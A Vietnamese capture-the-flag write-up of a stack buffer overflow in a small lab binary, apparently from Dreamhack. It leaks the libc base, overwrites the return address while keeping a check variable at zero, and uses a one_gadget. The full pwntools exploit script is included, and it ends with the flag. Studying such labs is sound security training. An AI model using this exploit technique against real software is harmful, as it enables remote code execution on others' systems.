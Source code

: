 **1. Tìm lỗi**

Ta có file source như sau:

```
// gcc -o oneshot1 oneshot1.c -fno-stack-protector -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}

```

- Chương trình in ra địa chỉ của `stdout`
- Sau đó chương trình cho nhập vào biến `msg` 46 byte nhưng biến `msg` chỉ được khai báo 16 byte -> Có lỗi `bof`
- Chú ý lúc ghi đè đến `ret` thì phải ghi vị trí biến `check = 0` để không bị exit.

**2. Ý tưởng**

- Có 1 địa chỉ được leak ra -> Nghĩ đến leak địa chỉ libc base
- Dùng lệnh `checksec` kiểm tra:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
- Vậy không cần leak `canary` -> Dùng `ROP` để get shell. 

**3. Khai thác**

Đầu tiên là lấy địa chỉ leak ra rồi đi tính toán để có được địa chỉ libc base

![check.png](photo/check.png)

Ta thấy địa chỉ leak ra năm trong dải địa chỉ libc và cách địa chỉ libc base 0x3c5620 byte

```
r.recvuntil(b'stdout: ')
leak = int(r.recvline()[:-1], 16)
log.info("leak address: " + hex(leak))
libc.address = leak - 0x3c5620
log.info("libc base: " + hex(libc.address))
```

Tiếp theo sẽ đi kiếm `gadget` trên libc:

```
pop_rdi = libc.address + 0x0000000000021102
pop_rsi = libc.address + 0x00000000000202e8
pop_rdx = libc.address + 0x0000000000001b92
pop_rax = libc.address + 0x0000000000033544
syscall = libc.address + 0x00000000000026bf
```

```
   0x0000555555400a91 <+80>:    lea    rax,[rbp-0x20]
   0x0000555555400a95 <+84>:    mov    edx,0x2e
   0x0000555555400a9a <+89>:    mov    rsi,rax
   0x0000555555400a9d <+92>:    mov    edi,0x0
   0x0000555555400aa2 <+97>:    call   0x555555400830 <read@plt>
   0x0000555555400aa7 <+102>:   cmp    QWORD PTR [rbp-0x8],0x0
```

Ta thấy biến `msg` cách rbp 0x20 byte nên nhập 0x20 + 0x8 byte rác sẽ tới `ret`. Nhưng từ `msg` đến ret đi qua `check` cách rbp 0x8 byte nên khoảng này phải gán giá trị cho 0. Tức là từ 0x20 -> 0x8 là byte rác. Từ 0x8 đến rbp là 0. Rồi lại ghi đè 0x8 byte rác để đến `ret`. Tại đây sử dụng các thanh ghi để get shell là xong.
```
payload = b'a'*24
payload += p64(0)
payload += b'a'*8
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
r.sendafter(b'MSG: ', payload)
```

Đặt breakpoint ở lệnh `ret` rồi kiểm tra đã trả về shell mình tạo chưa:

![ret.png](photo/ret.png)

Chương trình đã không trả về đúng ý mình. Nên chuyển qua dùng `one_gadget`. Kiếm `one_gadget` trên libc ta có:

![one.png](photo/one.png)

Tiếp theo thử từng cái thằng nào được thì lấy cho nhanh. Ta có script như sau:

```
from pwn import *

exe = ELF('oneshot_patched', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 13062)
libc = ELF('libc.so.6', checksec=False)

r.recvuntil(b'stdout: ')
leak = int(r.recvline()[:-1], 16)
log.info("leak address: " + hex(leak))
libc.address = leak - 0x3c5620
log.info("libc base: " + hex(libc.address))

#input()
one_gadget = libc.address + 0x45216
payload = b'a'*24
payload += p64(0)
payload += b'a'*8
payload += p64(one_gadget)
r.sendafter(b'MSG: ', payload)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: DH{a6e74f669acffd69602b76c81c0516b2}`